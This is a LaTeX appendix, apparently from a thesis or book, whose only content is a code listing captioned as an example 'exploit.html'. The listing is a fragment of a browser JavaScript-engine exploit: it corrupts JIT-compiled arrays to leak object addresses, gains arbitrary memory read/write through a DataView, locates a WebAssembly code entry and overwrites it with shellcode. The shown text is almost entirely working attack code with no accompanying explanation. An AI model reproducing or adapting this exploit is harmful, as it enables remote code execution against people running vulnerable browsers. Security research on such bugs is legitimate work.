 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]
			arr.shift();
			let local_arr = Array(2);
			local_arr[0] = 5.1;//4014666666666666
			let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
			arr[0] = 0x1122;
			return [arr, local_arr, buff];
		}
		for (var i = 0; i < 0x10000; ++i)
			foo(false);
		gc(); gc();
		[corrput_arr, rwarr, corrupt_buff] = foo(true);
		corrput_arr[12] = 0x22444;
		delete corrput_arr;
		function setbackingStore(hi, low) {
			rwarr[4] = i2f(fLow(rwarr[4]), hi);
			rwarr[5] = i2f(low, fHi(rwarr[5]));
		}
		function leakObjLow(o) {
			corrupt_buff.slot = o;
			return (fLow(rwarr[9]) - 1);
		}
		let corrupt_view = new DataView(corrupt_buff);
		let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
		let idx0Addr = corrupt_buffer_ptr_low - 0x10;
		let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
			- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
			+ 0x40000;
		let delta = baseAddr + 0x1c - idx0Addr;
		if ((delta % 8) == 0) {
			let baseIdx = delta / 8;
			this.base = fLow(rwarr[baseIdx]);
		} else {
			let baseIdx = ((delta - (delta % 8)) / 8);
			this.base = fHi(rwarr[baseIdx]);
		}
		let wasmInsAddr = leakObjLow(wasmInstance);
		setbackingStore(wasmInsAddr, this.base);
		let code_entry = corrupt_view.getFloat64(13 * 8, true);
		setbackingStore(fLow(code_entry), fHi(code_entry));
		for (let i = 0; i < shellcode.length; i++) {
			corrupt_view.setUint8(i, shellcode[i]);
		}
		main();
	</script>
\end{lstlisting}


\end{appendices}
\end{document}
